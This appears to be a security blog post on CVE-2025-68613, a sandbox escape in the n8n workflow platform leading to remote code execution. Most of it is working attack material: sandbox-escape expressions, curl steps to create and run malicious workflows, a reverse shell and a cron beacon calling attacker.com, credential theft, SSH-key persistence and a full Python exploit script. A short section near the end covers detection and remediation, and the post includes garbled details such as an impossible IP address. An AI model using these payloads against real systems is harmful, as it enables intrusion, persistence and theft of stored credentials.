



n8n CVE-2025-68613: Workflow Automation to Remote Execution
To begin with, yes it's the workflow automation platforms, and it's are everywhere. Wanna-be Productive and people likes it, DevOps teams love them.
They orchestrate business logic, connect APIs, process data, and handle sensitive credentials. Then swag critical RCE drops in one of the most popular automation platforms, you know it's time to pay attention.
CVE-2025-68613 is a CVSS 9.9 remote code execution vulnerability in n8n, an open-source workflow automation tool with over 100,000 exposed instances worldwide. The flaw allows authenticated attackers to break out of the JavaScript sandbox and execute arbitrary commands on the underlying server.
It's been patched, PoC code exists, and over 100,000+ instances were potentially vulnerable when this dropped. Let's break down to it's core and how to exploit it.
uid=1000(n8n) gid=1000(n8n) groups=1000(n8n)What is n8n?
Before we dive into exploitation, context matters. n8n is a workflow automation platform similar to Zapier or Make.com, but self-hosted and open-source.
From n8n:
"n8n is the company behind n8n, the product. We're building a workflow automation platform that gives technical teams the flexibility of code with the speed of no-code."
Key characteristics:
- Node-based workflow builder.
- Connects hundreds of services, even Slack and AWS.
- JavaScript expressions for data transformation.
- Often deployed with internet exposure.
- Stores API keys, OAuth tokens, database credentials.
- Used by enterprises for business-critical automation.
The platform evaluates user-supplied JavaScript expressions during workflow execution. This is where the vulnerability lives.
The Vulnerability: Expression Injection to RCE
CVE-2025-68613 stems from insufficient sandbox isolation in n8n's expression evaluation engine.
How n8n Expressions Work
n8n workflows use expressions like this to process data, the safe way for context:
={{ $json.name.toUpperCase() }}={{ $env.API_KEY }}={{ new Date().toISOString() }}These expressions are supposed to run in a sandboxed context, isolated from Node.js internals and the operating system.
The Sandbox Escape
The vulnerability happen because the sandbox isolation wasn't sufficient. Attackers can access the JavaScript this context to reach Node.js internals:
={{ (function() { return this.process; })() }}={{ (function() { return this.process.mainModule.require('child_process'); })() }}={{ (function() {
const exec = this.process.mainModule.require('child_process').exec;
return exec('whoami').toString();
})() }}By wrapping code in a function and calling it, attackers can manipulate the this binding to access objects that should have been unreachable.
Affected Versions
The vulnerability impacts a wide range of n8n versions:
Vulnerable Versions:
- 0.211.0 through 1.120.3
- 1.121.0 (all 1.121.x before 1.121.1)
- 1.122.0 (all 1.122.x before 1.122.0 fixed)
Patched Versions:
- 1.120.4 or later
- 1.121.1 or later
- 1.122.0 or laterIf you're running n8n in production, pls pls!!! check your version immediately geng. This bug has been around since version 0.211.0, meaning deployments from Years ago are vulnerable.
Exploitation Requirements
What does an attacker need to exploit this?
Prerequisites
- Authentication, which it requires credential.
- Workflow permissions, An ability to create or edit workflows.
- And the Vulnerable version.
That's it. No admin rights required.
Any user with workflow editing permissions can achieve RCE.
Attack Surface
Where do you find vulnerable n8n instances?
- Self-hosted deployments
- Internet-exposed instances (Google dorks yo!)
- Multi-tenant environments
- Development environments
Some enterprises (accidentally) expose n8n for remote access, webhook triggers, or API integrations, making them directly attackable from the internet.
Proof of Concept
A TryHackMe labs for CVE-2025-68613 exploitation documentation.
Proof of Concept:
Dope by Akanksha Kumari from Youtube, and also another research from DarkWebInformer on Twitter.
Step-by-Step Exploitation
Let's walk through the complete attack chain from initial access to full system compromise.
Phase 1: Reconnaissance
First, identify if the target is running n8n:
curl -I https://vulnerable.comLook for n8n-specific headers:
X-N8N-Workflows: enabled
Server: n8ncurl https://vulnerable.com/signinVersion (vulnerable) detection via API:
┌──(kali㉿kali)-[~]
└─$ curl https://vulnerable.com/rest/settings
{
"data": {
"version": "1.119.3",
...
}
}Phase 2: Authentication
You need valid creds, another reminder
Common attack vectors:
- Default credentials.
- Registration.
- Credential stuffing.
- Phishing (n8n are available in GoPhish and Evilginx).
- Leaked API keys.
┌──(kali㉿kali)-[~]
└─$ curl -X POST https://vulnerable.com/rest/login -H "Content-Type: application/json" -d '{"email": "attacker@example.com","password": "P@ssw0rd123"}'
{
"data": {
"token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
}
}Phase 3: Payload Creation
Now create a malicious workflow with the RCE payload:
curl -X POST https://vulnerable.com/rest/workflows -H "Content-Type: application/json" -H "Authorization: Bearer $TOKEN" -d '{"name": "System Check","active": false,"nodes": [{"name": "Start","type": "n8n-nodes-base.start","position": [250, 300],"parameters": {}}, {"name": "Execute","type": "n8n-nodes-base.set","position": [450, 300],"parameters": {"values": {"string": [{"name": "output","value": "={{ (function() { const exec = this.process.mainModule.require(\"child_process\").execSync; return exec(\"whoami\").toString(); })() }}"}]}}}],"connections": {"Start": {"main": [[{"node": "Execute", "type": "main", "index": 0}]]}}}'Phase 4: Triggering Execution
Execute the workflow to trigger the RCE:
curl -X POST https://vulnerable.com/rest/workflows/$WORKFLOW_ID/run -H "Authorization: Bearer $TOKEN"┌──(kali㉿kali)-[~]
└─$ curl https://vulnerable.com/rest/executions/$EXECUTION_ID -H "Authorization: Bearer $TOKEN"
{
"data": {
"resultData": {
"runData": {
"Execute": [{
"data": {
"main": [[{
"json": {
"output": "n8n-user\n"
}
}]]
}
}]
}
}
}
}"n8n-user\n" Yep, this is the vuln out-come.
Advanced Exploitation Techniques
Basic command execution is just the start. Here's how to weaponize this properly.
Reverse Shell
Get interactive access to the compromised system:
Reverse shell payload:
={{ (function() {
const exec = this.process.mainModule.require('child_process').exec;
exec('bash -i >& /dev/tcp/attacker.com/9001 0>&1');
return 'Shell spawned';
})() }}On your attack machine:
sudo nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.623.23] from (UNKNOWN) 192.168.623.23 54321
n8n-user@container:~$ whoami
n8n-user
n8n-user@container:~$ pwd
/home/n8nSWAG SHELSS!!!
Credential Exfiltration
n8n stores credentials for all integrated services.
Steal them:
={{ (function() {
const fs = this.process.mainModule.require('fs');
const db = fs.readFileSync('/home/n8n/.n8n/database.sqlite');
return db.toString('base64');
})() }}Or read environment variables with secrets:
={{ (function() {
return JSON.stringify(this.process.env);
})() }}Extract specific credentials:
={{ (function() {
const fs = this.process.mainModule.require('fs');
const config = fs.readFileSync('/home/n8n/.n8n/config', 'utf8');
return config;
})() }}Persistence Mechanisms
Maintain access even after the workflow is deleted:
={{ (function() {
const exec = this.process.mainModule.require('child_process').execSync;
const pubkey = 'ssh-rsa AAAAB3NzaC1yc2E... attacker@host';
exec('echo "' + pubkey + '" >> ~/.ssh/authorized_keys');
exec('chmod 600 ~/.ssh/authorized_keys');
return 'Backdoor installed';
})() }}Create cron job for beacon:
={{ (function() {
const exec = this.process.mainModule.require('child_process').execSync;
exec('(crontab -l; echo "*/5 * * * * curl https://attacker.com/beacon") | crontab -');
return 'Persistence established';
})() }}Lateral Movement
Use n8n as a pivot point to attack internal infrastructure:
Scan internal network:
={{ (function() {
const exec = this.process.mainModule.require('child_process').execSync;
return exec('for i in {1..254}; do ping -c1 192.168.1.$i; done').toString();
})() }}Access internal services using stored credentials:
={{ (function() {
const https = this.process.mainModule.require('https');
const awsCreds = this.process.env.AWS_ACCESS_KEY_ID;
return awsCreds;
})() }}Automated Exploitation Script
Here's a complete Python script to automate the attack:
#!/usr/bin/env python3
import requests
import json
import sys
import base64
class N8nExploit:
def __init__(self, target_url, email, password):
self.target = target_url.rstrip('/')
self.email = email
self.password = password
self.token = None
self.session = requests.Session()
def login(self):
print("[*] Authenticating...")
r = self.session.post(f"{self.target}/rest/login", json={
"email": self.email,
"password": self.password
})
if r.status_code == 200:
self.token = r.json()['data']['token']
self.session.headers['Authorization'] = f'Bearer {self.token}'
print("[+] Authentication successful")
return True
else:
print(f"[-] Authentication failed: {r.text}")
return False
def create_malicious_workflow(self, command):
print(f"[*] Creating workflow with command: {command}")
payload = f'={{{{ (function() {{ const exec = this.process.mainModule.require("child_process").execSync; return exec("{command}").toString(); }})() }}}}'
workflow = {
"name": "System Diagnostics",
"active": False,
"nodes": [{
"name": "Start",
"type": "n8n-nodes-base.start",
"position": [250, 300],
"parameters": {}
}, {
"name": "Execute",
"type": "n8n-nodes-base.set",
"position": [450, 300],
"parameters": {
"values": {
"string": [{
"name": "result",
"value": payload
}]
}
}
}],
"connections": {
"Start": {
"main": [[{"node": "Execute", "type": "main", "index": 0}]]
}
}
}
r = self.session.post(f"{self.target}/rest/workflows", json=workflow)
if r.status_code in [200, 201]:
workflow_id = r.json()['data']['id']
print(f"[+] Workflow created: {workflow_id}")
return workflow_id
else:
print(f"[-] Workflow creation failed: {r.text}")
return None
def execute_workflow(self, workflow_id):
print("[*] Executing workflow...")
r = self.session.post(f"{self.target}/rest/workflows/{workflow_id}/run")
if r.status_code == 200:
execution_id = r.json()['data']['executionId']
print(f"[+] Workflow executed: {execution_id}")
return execution_id
else:
print(f"[-] Execution failed: {r.text}")
return None
def get_execution_result(self, execution_id):
print("[*] Retrieving execution results...")
r = self.session.get(f"{self.target}/rest/executions/{execution_id}")
if r.status_code == 200:
try:
result = r.json()['data']['resultData']['runData']['Execute'][0]['data']['main'][0][0]['json']['result']
return result
except (KeyError, IndexError):
return r.json()
else:
print(f"[-] Failed to retrieve results: {r.text}")
return None
def exploit(self, command):
if not self.login():
return None
workflow_id = self.create_malicious_workflow(command)
if not workflow_id:
return None
execution_id = self.execute_workflow(workflow_id)
if not execution_id:
return None
import time
time.sleep(2)
result = self.get_execution_result(execution_id)
return result
def main():
if len(sys.argv) < 4:
print("Usage: python3 CVE-2025-68613.py [command]")
print("Example: python3 CVE-2025-68613.py https://n8n.vulnerable.com admin@vulnerable.com P@ssw0rd 'whoami'")
sys.exit(1)
target = sys.argv[1]
email = sys.argv[2]
password = sys.argv[3]
command = sys.argv[4] if len(sys.argv) > 4 else 'whoami'
exploit = N8nExploit(target, email, password)
result = exploit.exploit(command)
if result:
print("\n[+] Command output:")
print(result)
else:
print("\n[-] Exploitation failed")
if __name__ == "__main__":
main() For more easy this is the Gist on my GitHub:
Usage commands:
python3 CVE-2025-68613.py https://vulnerable.com admin@company.com P@ssw0rd "whoami"python3 CVE-2025-68613.py https://vulnerable.com admin@company.com P@ssw0rd "env"python3 CVE-2025-68613.py https://vulnerable.com admin@company.com P@ssw0rd "bash -i >& /dev/tcp/attacker.com/9001 0>&1"Detection and Forensics
From a defensive perspective, here's how to detect exploitation attempts:
Indicators of Compromise
Workflow Indicators:
- Workflows with suspicious names
- Expressions containing "process", "require", "child_process"
- Expressions with "this.process" or "mainModule"
- Base64 encoded expressions
- Workflows created by unexpected users
System Indicators:
- Unusual process spawning from n8n user
- Network connections to external IPs from n8n process
- File system modifications in n8n directories
- SSH keys added to n8n user
- Cron jobs created by n8n user
Log Indicators:
- POST requests to /rest/workflows with suspicious payloads
- Multiple failed authentication attempts
- Workflow executions returning error patterns
- Unusual API usage patternsLog Analysis
Check n8n logs for exploitation attempts:
Search for suspicious expressions in workflows
grep -r "this.process" /home/n8n/.n8n/workflows/
grep -r "require" /home/n8n/.n8n/workflows/
grep -r "child_process" /home/n8n/.n8n/workflows/
grep -r "exec" /home/n8n/.n8n/workflows/Check n8n execution logs
tail -f /home/n8n/.n8n/logs/n8n.log | grep -i "error\|exception\|require"Review workflow creation activity
sqlite3 /home/n8n/.n8n/database.sqlite "SELECT * FROM workflow_entity WHERE createdAt > datetime('now', '-7 days');"Network Detection
Monitor network traffic for malicious activity, start with watch for unusual outbound connections:
tcpdump -i any -n 'src host n8n_server_ip and not dst port 443 and not dst port 80'Monitor for reverse shell traffic:
tcpdump -i any -n 'tcp[tcpflags] & tcp-syn != 0' | grep -i bashCheck for data exfiltration
iftop -i eth0 -f 'src host n8n_server_ip'Remediation Steps

This might be some Audit and small hardening effort:
Immediate Actions
- Update and Upgrade to patched versions.
- Audit workflows by looking at all workflows for suspicious expressions.
- Check logs.
- Rotate credentials by change all API keys and secrets stored in n8n.
- Review access permissions and remove unnecessary accounts.
Long-Term Security Hardening
- Restrict network access.
- Enable 2FA.
Temporary Mitigations
If you cannot patch immediately (which I don't believe you), apply these mitigations:
1. Restrict workflow creation to trusted admins only
2. Run n8n as unprivileged user with minimal OS permissions
3. Deploy in isolated network segment
4. Enable strict egress filtering
5. Monitor all workflow modifications
6. Disable unnecessary integrations
7. Implement rate limiting on API endpointsThe Bigger Picture: Automation Platform Security
This vulnerability highlights a broader issue with automation platforms. When you give users the ability to execute code, even in a "sandbox" you're one misconfiguration away from RCE.
Labs for CVE-2025-68613
I think TryHackMe really did a great job for making this room:

Which I already done!

Resources and Tools
- CVE-2025-68613.py by @byt3n33dl3
- n8n GitHub
- CVE-2025-68613 NVD Entry
- SecureLayer7 PoC
- Censys Internet Scanner
Shout Outs
Props to the researchers who found and disclosed this responsibly:
- Fatih Celik as the original vulnerability discovery
- Orca Security as Vulnerability analysis
- n8n Security Team